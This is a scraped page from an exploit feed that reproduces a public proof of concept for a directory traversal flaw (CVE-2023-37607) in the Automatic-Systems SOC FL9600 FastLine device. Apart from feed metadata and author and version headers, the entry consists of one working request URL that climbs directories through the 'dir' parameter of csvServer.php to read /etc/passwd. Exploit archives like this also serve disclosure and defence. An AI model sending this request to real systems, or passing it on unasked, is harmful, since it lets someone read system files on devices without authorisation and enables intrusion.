 ```yaml
---
title: Automatic-Systems SOC FL9600 FastLine - Directory Transversal exploit
url: https://sploitus.com/exploit?id=EDB-ID:51823&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-02-28
fetch_date: 2025-10-04T12:07:08.647247
---
```


# Automatic-Systems SOC FL9600 FastLine - Directory Transversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Automatic-Systems SOC FL9600 FastLine - Directory Transversal CVE-2023-37607

2024-02-27 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51823
# Exploit Title: Automatic-Systems SOC FL9600 FastLine - Directory Transversal
# Google Dork:
# Date: 12/9/2023
# Exploit Author: Mike Jankowski-Lorek, Marcin Kozlowski / Cqure
# Vendor Homepage: http://automatic-systems.com
# Software Link:
# Version: V06
# Tested on: V06, VersionSVN = 28569_8a99acbd8d7ea09a57d5fbcb435da5427b3f6b8a
# CVE : CVE-2023-37607

Request URL: http://<host>/csvServer.php?getList=1&dir=../../../../etc/&file=passwd
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)